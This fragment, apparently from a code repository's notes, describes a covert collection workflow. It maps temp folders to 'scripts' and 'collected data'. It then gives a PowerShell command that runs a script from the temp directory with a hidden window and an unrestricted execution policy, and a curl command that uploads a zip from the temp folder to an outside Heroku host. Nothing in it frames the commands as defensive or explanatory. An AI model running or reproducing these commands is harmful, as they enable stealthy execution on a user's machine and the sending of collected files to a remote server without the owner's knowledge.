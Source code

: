 ebcb78ac-7b55-45ca-beb2-947b3439e9ce = scripts folder       | temp/ebcb78ac-7b55-45ca-beb2-947b3439e9ce
f3a4def0-1632-4d84-a99b-7c69233a91b8 = Colleted data folder | temp/f3a4def0-1632-4d84-a99b-7c69233a91b8


powershell.exe -windowstyle hidden -executionpolicy unrestricted -file $env:temp\main.ps1

// upload scripts zip file
curl.exe --request POST --url https://gabup.herokuapp.com/upload --header 'Content-Type: multipart/form-data' --form file="@$env:temp\ebcb78ac-7b55-45ca-beb2-947b3439e9ce.zip"

